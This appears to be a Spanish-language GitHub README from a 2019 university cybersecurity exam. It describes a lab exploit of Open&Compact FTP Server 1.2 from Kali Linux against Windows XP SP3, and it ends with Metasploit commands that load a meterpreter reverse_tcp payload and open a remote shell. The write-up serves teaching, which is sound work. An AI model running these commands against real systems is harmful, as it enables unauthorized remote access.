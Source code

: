 # Parcial_Ciberseguridad
PARCIAL CIBERSEGURIDAD 2019 - CRISTHIAN CHICA A. - 1152466424

Vulnerabilidad:
Este modulo explota multiples vulnerabilidades en el servidor Open&Compact FTP, como omisión de autenticacion y vulnerabilidad en
la carga de archivos arbitrario, es decir que esto permite a un atacante remoto escribir archivos en el sistema de archivos siempre que un usuario tenga
permisos, este modulo solo funciona con versiones inferiores a Windows Vista.
Existe una perdida completa de la proteccion del sistema, lo que hace que este se vea comprometido, no es necesario estar autenticado
para explotar la vulnerabilidad

Sistema Operativo:
El sistema operativo desde el cual se hace el ataque es Kali-Linux y el sistema operativo victima es Windows XP SP3

Software:
A parte de las maquinas virtuales ->Kali-Linux y Windows XP SP3, se hace uso del software Open-ftpd.1.2

Instructivo:
Inicialmente procedemos a correr las maquinas virtuales ->Kali-Linux y Windows XP SP3, una vez hecho esto descargamos el Open&Compact
FTP Server 1.2 o inferior a esta, ya que el exploit solo funciona con estas versiones, lo pasamos a traves de la Carpeta Compartida a Kali-Linux para que de una vez abramos la consola y descomprimamos el archivo con extension tar.gz, hecho esto pasamos el archivo por medio de la carpeta compartida a la maquina virtual Windows XP SP3 y corremos el ejecutable "ftp.exe" con esto ya garantizamos el requisito para poder realizar el exploit, observamos que direccion ip tienen ambas maquinas, despues en Kali-Linux procedemos a cargar la consola de metasploit, seleccionamos el tipo de exploit que en ese caso es el "exploit/windows/ftp/open_ftpd_wbem" de ahi debemos de setear el tipo de payload que usaremos, en el caso utilizamos un payload de tipo stage para poder hacer uso del meterpreter que opera mediante inyeccion dll y no deja rastros en el disco duro, luego indicamos con lhost cual será la maquina atacante y con rhost cual sera la maquina victima, realizado esto procedemos a hacer el exploit, es decir, a hacer provecho de la vulnerabilidad de seguridad del sistema. Se crea la sesión del meterpreter y a partir de aquí ya accedo a la maquina victima.

COMANDOS:
>msfconsole
>use exploit/windows/ftp/open_ftpd_wbem
>set payload windows/meterpreter/reverse_tcp
>set lhost <ip_atacante>
>set rhost <ip_victima>
>exploit
meterpreter>sysinfo
meterpreter>shell
